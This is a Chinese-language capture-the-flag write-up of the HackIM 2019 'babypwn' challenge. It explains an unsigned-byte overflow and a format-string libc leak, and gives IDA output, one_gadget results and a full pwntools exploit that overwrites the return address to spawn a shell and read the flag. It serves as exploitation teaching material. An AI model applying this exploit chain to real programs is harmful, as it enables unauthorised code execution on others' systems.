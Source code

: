 # 考察点
- 无符号数溢出
- 格式化字符串泄露 libc
  

# 分析
题目还给了 libc 文件
```shell
➜  hackIM19_babypwn file babypwn 
babypwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0962274293f7bca113fc5f453f1e44a83439f5be, not stripped
➜  hackIM19_babypwn checksec babypwn 
Error: No option selected. Please select an option.

➜  hackIM19_babypwn checksec --file=babypwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols            FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   75 Symbols No      0               1               babypwn
```

```shell
➜  hackIM19_babypwn ./babypwn
Create a tressure box?
y
name: cvjark
How many coins do you have?
2
1
2
Tressure Box: cvjark created!
➜  hackIM19_babypwn ./babypwn
Create a tressure box?
y
name: AAAAAAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%X
How many coins do you have?
2
1
3
Tressure Box: AAAAAAAA.1.f5175790.10.0.0.1.d2a010.1.d5300e60.F53A0168 created!  # 存在格式化字符串漏洞
```



对比 IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  unsigned __int8 coinNum; // [rsp+6h] [rbp-6Ah] BYREF
  unsigned __int8 i; // [rsp+7h] [rbp-69h]
  char *format; // [rsp+8h] [rbp-68h]
  _DWORD stackSpace[20]; // [rsp+10h] [rbp-60h] BYREF     format 字符串和 stackSpace 很相近，一个使格式化字符串，一个是可以写入的地方。
  char v8[8]; // [rsp+60h] [rbp-10h] BYREF
  unsigned __int64 v9; // [rsp+68h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  coinNum = 0;
  puts("Create a tressure box?\r");
  _isoc99_scanf("%2s", v8);
  if ( v8[0] == 'y' || v8[0] == 89 )
  {
    printf("name: ");
    format = (char *)malloc(0x64uLL);           // format 在堆上，大小0x64
    strcpy(format, "Tressure Box: ");
    _isoc99_scanf("%50s", format + 14);         // 输入到 format
    strcat(format, " created!\r\n");
    puts("How many coins do you have?\r");
    _isoc99_scanf("%hhu", &coinNum);            // coinNum 的本意应当是为 %d，但这里使用了 %hhu 接收
    if ( (char)coinNum > 20 )
    {
      perror("Coins that many are not supported :/\r\n");
      exit(1);
    }
    for ( i = 0; i < coinNum; ++i )
      _isoc99_scanf("%d", &stackSpace[i]);      // 写入数据 [rbp-60h]，距离返回地址 rbp+8 有 68 单位
    printf(format);                             // printf 输出可控字符
    free(format);
    result = 0;
  }
  else
  {
    puts("Bye!\r");
    result = 0;
  }
  return result;
}
```

IDA 大致分析之后，进一步做尝试
```SHELL
➜  hackIM19_babypwn ./babypwn
Create a tressure box?
y
name: %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
How many coins do you have?
1
43690                  
Tressure Box: 1.9f101790.10.0.0.1.bcd010.aaaa.9aaadc00.9f32c168.f0 created!
```
scanf 进行提交的 43690(十六进制是：aaaa)，被输入的格式化字符串进行输出了，并且 offset = 8

```shell
➜  hackIM19_babypwn ./babypwn
Create a tressure box?
y
name: .%8$x.
How many coins do you have?
1
48879
Tressure Box: .beef. created!
```

正常进行输入的话是不会有太大危害，但对于coinsNum 的接收
`_isoc99_scanf("%hhu", &coinNum);` 使用了一个字节无符号数去接受 `coinNum`，传入 `-1` 实际写入 `0xff`，

突破后续的判断`if ( (char)coinNum > 20 )`从而利用后续的循环`for ( i = 0; i < coinNum; ++i )`往栈上填充数据`_isoc99_scanf("%d", &stackSpace[i]);` 造成边界突破。

# payload 分析
IDA 分析写入目标数组`stackSpace`相对 rbp 为 60h 的单位内容【这里的单位是 4bytes，因为写入使用格式化 %d 进行了控制】，意味着 68h padding 开始就可以覆盖到返回地址，至于 cannary 由于是 scanf 进行 %d 的接收，传入字符"+" 不会修改内容。
本例开启了 NX、Full RELRO，给了 libc， **思路在于利用格式化字符串泄露出 libc，随后尝试 one_gadget 覆盖返回地址**。

达到上述目标需要二次触发相应的漏洞：
1. 第一次触发：利用格式化字符串，传入 puts GOT 地址，泄露出 puts 的地址，进而计算 libc 载入基址，覆盖返回地址为程序起始地址`_start`，使游戏再一次进行
2. 第二次触发：利用泄露出来的 libc 基址，计算 gadget 地址，再次对返回地址进行覆盖。
ps: 程序使 64位的，scanf 的回写单位 使 4bytes，因此传入对传入的地址8字节需要分两次进行。


one_gadget

```shell
# 挨个尝试，我的机器上第三个可以 pop shell
➜  hackIM19_babypwn one_gadget ./libc 
0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```



# exp
```python
# -*- coding: UTF-8 -*-

from pwn import *
context.log_level = "debug"
pipe = process("./babypwn", env = {'LD_PRELOAD':'./libc'})  
libc = ELF("./libc")


def gameStart(name, coin):
    print(pipe.recvline("Create a tressure box?"))
    pipe.sendline('y')
    print(pipe.recvuntil("name: "))
    pipe.sendline(name)
    print(pipe.recvline())
    pipe.sendline(str(coin))

gameStart(".%8$s.", -1)

# 进入 scanf 环节，每次写入 4bytes 因为 scanf 用的 %d，每个地址占8字节，高位用0填充
# putGOT = 0x00600fb0 = 6295472     mallocGOT = 0x00600fe0 = 6295520
pipe.sendline('6295472')    # 设置
pipe.sendline('0')


pipe.sendline('6295520')
pipe.sendline('0')

# scanf 写回的地址起始为 rbp-60h，因此 rbp-68h 是返回地址，前面填充两个地址，68h - 10h = 58h 58h/4 = 22 单位的4字节
for i in range(22): 
    pipe.sendline('+')  # 使用加号不会修改内容

# _start = 0x00400710 = 4196112, 覆盖返回地址为 _start 回到程序最开始位置，restart game
pipe.sendline('4196112')
pipe.sendline('0')

# 填充剩余的 scanf 内容，因为输入 -1 = ff， ffh * 4 - 70h = 908、4 = 227 
for i in range(227):    
    pipe.sendline('+')

leakInfo = pipe.recvline()
# pipe.recvline()
value = leakInfo.split(".")[1]
putGOT = u64(value + "\x00"*(8-len(value)))
print("puts function GOT: 0x%x" % putGOT)

libcBase = putGOT - libc.symbols['puts']
print("libc Base address: 0x%x" % libcBase)
one_gadGet = libcBase + 0xf1147
print("One_gadget address: 0x%x" % one_gadGet)

# 第一次 game 通过控制 -1 传入，使得可以覆盖返回地址，为了维持工作，设置返回地址为程序的初始位置 `_start`，开始新一轮的game，这次覆盖成 one_gadget
gameStart("57005", -1)

for i in range(26):
    pipe.sendline("+")

pipe.sendline(str((one_gadGet & 0xffffffff)))
pipe.sendline(str(one_gadGet >> 32))

for i in range(227):
    pipe.sendline("+")

pipe.interactive()

```

```shell
[*] Switching to interactive mode
Tressure Box: 57005 created!
$ ls
README.md  babypwn  core  exp.py  flag  libc  peda-session-babypwn.txt  test.c
$ cat flag
flag{DEADBEEF}
```
